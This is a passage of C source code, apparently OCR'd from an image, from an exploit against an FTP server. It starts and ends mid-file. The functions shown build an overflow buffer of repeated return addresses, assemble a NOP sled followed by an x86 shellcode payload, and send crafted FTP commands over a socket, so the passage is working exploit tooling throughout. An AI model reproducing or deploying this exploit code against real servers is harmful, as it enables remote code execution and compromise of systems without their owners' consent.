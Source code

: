       printe("getdir(): allocating memory failed.",1);
     memset(buf,0x0,255+1);
     if(align)memset(buf,'x',align);
     for(i=align;i<252;i+=4){
     if(!reverse)*(long *)&buf[i]=(baseaddr-offset);
     else *(long *)&buf[i]=(baseaddr+offset);
     }
     return(buf);
    }
    char *getbdir(void){
     char *buf;
     time_t ttt;
     struct tm *ttm;
     if(!(buf=(char *)malloc(32+1)))
      printe("getbdir(): allocating memory failed",1);
     ttt=time(NULL);
     ttm=localtime(&ttt);
     strftime(buf,32,"tmp_%H:%M:%S_%d-%m-%Y",ttm);
     return(buf);
    }
    char *getcode(void){
     char *buf;
     if(!(buf=(char *)malloc(512+1)))
      printe("getcode(): allocating memory failed",1);
     memset(buf,0x90,(512-strlen(x86_exec)));
     memcpy(buf+(512-strlen(x86_exec)),x86_exec,strlen(x86_exec));
     return(buf);
    }
    void filter_text(char *ptr){
     unsigned int i=0;
     for(i=0;i<strlen(ptr);i++){
      /* keep it short and sweet. */
      if(i>=(columns-3)){
       ptr[i--]=0x0;
       ptr[i--]='.';
       ptr[i--]='.';
       ptr[i]='.';
      }
      /* don't make \r or \n a '?'. */
      else if(ptr[i]=='\r'||ptr[i]=='\n')ptr[i]=0x0;
      /* don't ugly the local terminal. */
      else if(!isprint(ptr[i]))ptr[i]='?';
     }
     return;
    }
    void ftp_printf(int sock,char *fmt,...){
     char *buf;
     va_list ap;
     if(!(buf=(char *)malloc(1024+1)))
      printe("ftp_printf(): allocating memory failed.",1);
     memset(buf,0x0,1024+1);
     va_start(ap,fmt);
     vsnprintf(buf,1024,fmt,ap);
     va_end(ap);
     write(sock,buf,strlen(buf)); /* write it, then mod it for display. */
     filter_text(buf);
     if(!no_io)
      printf("-> %s\n",buf);
     free(buf);
     return;
    }
    void ftp_clean(int sock){
     ftp_printf(sock,"CWD ..\r\n");
     ftp_read(sock);